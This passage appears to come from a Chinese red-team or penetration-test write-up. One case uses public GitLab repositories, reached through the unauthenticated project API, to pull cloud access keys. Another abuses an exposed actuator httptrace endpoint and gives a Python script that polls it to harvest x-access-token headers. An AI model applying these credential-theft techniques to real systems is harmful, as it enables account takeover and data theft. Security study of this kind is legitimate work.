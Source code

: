 ![img](assets/1701668693-8d034ed749ee6065fdbd2e03ad77f039.png)

## 案例6、某单位Gitlab项目权限误配导致公有云接管

防守单位中某单位的Gitlab开放到了公网，但是爆破了一顿，并不存在弱口令和其他Nday漏洞

但是经过对Gitlab的测试，找到了Gitlab中仓库权限的配置问题

```php
/api/v4/projects
```

获取到gitlab中部分仓库为public状态，非登录态可直接访问

![image.png](assets/1701668693-93de510386b7c85649c762082a8e4b1f.png)  
如图，成功访问到某内部项目

![image-20231120161131396](assets/1701668693-403f6970e5bdb47514987b29e2e19d4e.png)

最终在某项目中成功找到了可用的ak,sk，完成公有云接管

![img](assets/1701668693-b8740df5d644b118db071a997b6e2db8.png)

## 案例七、某单位系统从一个actuator httptrace端点到千万量级敏感信息

挂着Burp代理，被动扫描到了一个actuator接口，很幸运，开放了httptrace endpoint，借此我们可以获取到系统中的http请求日志

![image-20231122111607300](assets/1701668693-7da0f9b6a31c414b6908af5353a2eda0.png)

但是发现如图上方使用的鉴权header并不能直接进入到系统中

刚开始怀疑是鉴权信息的过期时间设置的比较短，写了个脚本监控带有x-access-token的新增请求

```python
import requests
import time

monitored_text = ""

# URL
url = "http://xxxxx.xxxxx.com/xxxxxx/actuator/httptrace/"

while True:
    try:
        response = requests.get(url)
        page_text = response.text
        new_content = page_text[len(monitored_text):]

        # 检查新增的内容是否包含 "x-access-token" 字符串
        if "x-access-token" in new_content:
            current_time = time.strftime("%Y-%m-%d %H:%M:%S", time.localtime())
            print(f"新增的内容包含 'x-access-token' 于 {current_time}")
        monitored_text = page_text
        time.sleep(1)

    except Exception as e:
        print(f"error Info: {e}")
```
